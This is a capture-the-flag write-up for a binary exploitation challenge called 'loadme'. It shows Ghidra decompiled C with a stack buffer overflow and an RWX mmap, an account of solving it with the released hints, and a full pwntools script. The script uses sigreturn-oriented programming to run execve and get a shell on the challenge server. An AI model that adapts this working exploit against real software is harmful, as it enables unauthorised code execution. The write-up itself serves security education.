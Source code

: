 The round 1 challenge was named loadme and had the description "I mean it does get easier than this. It's just a question of how well you know your basics"

### Analysis
After reversing it in ghidra, we get the following decompiled code
```C
undefined8 main(void)
{
  size_t filenameSize;
  char *c;
  undefined buf [256];
  char filename [264];
  void *ptr;
  size_t filesize;
  FILE *fp;
  
  memset(filename,0,0x100);
  printf("Enter file you want to read: ");
  fgets(filename,0x100,stdin);
  filenameSize = strcspn(filename,"\n");
  filename[filenameSize] = '\0';
  printf("[*] Reading %s into memory...\n",filename);
  fp = fopen(filename,"rb");
  if ((((fp != (FILE *)0x0) && (c = strstr(filename,"flag"), c == (char *)0x0)) &&
      (c = strstr(filename,"loadme"), c == (char *)0x0)) &&
     (c = strstr(filename,"bin"), c == (char *)0x0)) {
    fseek(fp,0,2);
    filesize = ftell(fp);
    fseek(fp,0,0);
    ptr = mmap((void *)0x13370000,filesize,7,0x21,-1,0);
    memset(ptr,0,filesize);
    fread(ptr,1,filesize,fp);
    fclose(fp);
    printf("I\'m sorry, I never asked for your name: ");
    read(0,buf,0x400);
    return 0;
  }
  puts("Error: Invalid file.");
  return 1;
}
```

The program first asks for a file path, replaces the newline character with a null (if any) and then opens the file. The filename cannot contain the string "flag", "loadme" or "bin". Then the file size is calculated, `mmap` is called with the file size and the contents are copied in the pages returned by `mmap` then it reads 0x400 (1024) bytes in a buffer of size 0x100 (256) which is a clear buffer overflow. Taking a look at the binary permissions, we see that it has Full RELRO, PIE and NX but no canary.

### Exploitation
The PIE threw me off and I thought it was an error on the organizers side. After confirming that PIE was intended, I was puzzled. I completely ignored the mmap arguments.

Then first hint was released and it read "_Maybe the `mmap` chunk has funny permissions_". Then I saw that the `prot` (protections) argument was set to `7` which means that `mmap` will return a page that has `RWX` permissions. It became apparent that we had to jump to the chunk to execute code in it and we could do that because the address of the chunk was fixed to `0x133713370000`.

My next attempt was to somehow open stdin using the file open and read shellcode in to `mmap` chunk and jump to it. I tried opening stdin using `/proc/self/fd/0` and `/dev/stdin`. Both didn't work since these files are un-seekable and `ftell` would return `-1`. This was resulting in a crash since in `memset`.

Then second hint was released and it read "_Try opening a file that will give you some useful 'gadgets'_". The brain jumped to the conclusion that it was libc that we were supposed to open. For some reason, I thought we could only jump to one address in libc (dumb I know) and I tried to jump to one-gadget. None worked.

When 3 minutes and 29 seconds left, the third hint was released and it read something along the lines of _Running one-gadgets might work as expected, how else can you do instead \*\*CALL\*\*ing \*\*SYS\*\*tem_. The highlighted fragments made the string "syscall" and my brain was all around the place trying to come up with a solution and I was under a lot of pressure since it was the first challenge and only 3 minutes were left. I somehow managed to remember SigReturn Oriented Programming (SROP) and pulled the pwntools docs for the syntax, made an execve syscall frame and found a gadget that would make the `sigreturn` syscall and just executed the payload on remote without testing locally. It worked and I executed `./submitter 18`  and completed the challenge.

### Exploit
Here's the final exploit

```python
#!/usr/bin/env python3
from pwn import *

def start() -> tube:
    if args.REMOTE:
        return remote("challs.airoverflow.com", 63440)
    else:
        return elf.process()
    
def attach_gdb() -> None:
    if args.REMOTE or args.NOGDB:
        return
    
    gdb.attach(p, '''
    b *main +533
    continue
               ''')
    input("ATTACHED?")

context.binary = elf = ELF("./loadme")
libc = elf.libc

p = start()

p.sendlineafter(": ", "/lib/x86_64-linux-gnu/libc.so.6")

ret = SigreturnFrame()
ret.rdi = 0x13370000 + 0x1cb42f
ret.rsi = 0
ret.rdx = 0
ret.rax = 0x3b
ret.rip = 0x13370000 + 0x00000000000288b5 # syscall; ret

payload = b'A'*552 + p64(0x13370000 + 0x0000000000045320) + \ # mov rax, 0xf, syscall
          bytes(ret)
p.sendlineafter(": ", payload)

p.interactive()
p.close()
```

### Comments
In retrospect, if I didn't make assumptions, closely at the primitives and made a plan without considering the pressure, I would have done ROP. Lesson learned.
Overall, the challenge was unconventional and awesome. It really did test your basics and my brain that has a habit of overcomplicating simple things.